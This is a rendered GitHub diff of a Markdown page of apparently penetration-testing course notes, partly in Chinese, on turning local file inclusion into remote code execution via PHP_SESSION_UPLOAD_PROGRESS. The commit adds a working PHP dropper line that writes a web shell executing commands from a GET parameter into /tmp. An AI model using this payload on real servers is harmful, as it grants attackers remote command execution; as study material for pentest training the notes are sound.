

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around one of its changes. Rendered like a GitHub page.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -191,6 +191,7 @@ LFI to RCE
 
 PHP_SESSION_UPLOAD_PROGRESS
 ---
-    創建一個塞滿垃圾的檔案
+    創建一個塞滿垃圾的檔案和要塞進去tmp的shell
     python -c 'print "A" * 2048 * 1024' >> junk.txt
+    evildropper:<?php file_put_contents('/tmp/shell.php','<?php system($_GET[3])?>'); ?>
 <img  alt="image" src="https://github.com/user-attachments/assets/91179427-5665-4ce2-98ae-a3fafea3d966">
```
Also changed, not shown: other parts of Cpent/Day5.md (+1 -0 lines).
